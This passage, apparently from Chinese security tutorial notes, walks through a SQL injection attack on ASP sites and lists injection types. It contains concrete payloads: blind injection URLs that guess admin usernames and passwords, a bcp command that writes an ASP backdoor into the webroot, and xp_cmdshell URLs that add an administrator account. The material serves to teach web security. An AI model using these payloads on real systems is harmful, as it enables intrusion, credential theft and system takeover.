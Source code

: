      ```url
     http://SITE/xxx.asp?some_rec = yyy and (select Count(guessed_rec_name) from Admin)>0
     ```

   - 用户名与口令猜解

     取第一条记录，首先猜解用户名字段的长度：

     ```url
     http://SITE/xxx.asp?some_rec = yyy and (select top 1 len(username) from Admin)>[guessed_length]
     ```

     逐位猜解字符串每位字符的 ASCII 值，可以使用二分法：

     ```sql
     (select top 1 asc(mid(username,N,1)) from Admin)>[guessed_ascii]
     ```

     对口令值的猜解过程类似，但数据库存储的口令有时是 MD5 加密的，可以通过注入 SQL 修改口令，或者使用破译工具破解。

4. 上传 ASP 后门，得到默认账户权限

   SQL Server: 还可以利用 BCP 命令，将写入临时表终端 ASP 后台脚本内容导成文本文件，并放置到指定位置

   ```bash
   bcp "select codes from tmp_tbl" queryout c:\inetpub\wwwroot\runcommand.asp -c -S localhosgtg -U sa -P foobar
   ```

5. 本地权限提升

6. 利用数据库扩展存储过程执行 Shell 命令

   若数据库连接支持类似于 SQL Server 的 `xp_cmdshell` 扩展存储过程，且拥有数据库管理系统的最高管理权限，就可以利用该存储过程调用 Shell 命令进行任意操作，而无需步骤3~5

   通过请求如下 URL，在系统中添加一个用户，并将其加入到本地管理员组：

   ```url
   http://SITE/xxx.asp?some_rec = yyy; exec master.xp_cmdshell "net user name password /add"
   http://SITE/xxx.asp?some_rec = yyy; exec master.xp_cmdshell "net localgroup name administrators /add"
   ```

##### SQL 注入类型

###### 按 “注入点位置” 分类

根据攻击者可控制的输入位置（即注入点）划分，决定了注入的触发途径：

- GET 注入

注入点位于 URL 的 GET 参数中（如 `http://xxx.com/detail?id=1` 中的 id 参数），攻击者通过修改 URL 参数值插入 SQL 语句（如 `id=1' or 1=1-- `），是最易发现的注入类型。

- POST 注入

注入点位于表单提交的 POST 参数中（如登录表单的 “用户名”“密码” 字段），攻击者在输入框中填入 SQL 片段（如用户名输入 `admin' -- `），因参数不直接暴露在 URL 中，隐蔽性略高。

- Cookie 注入

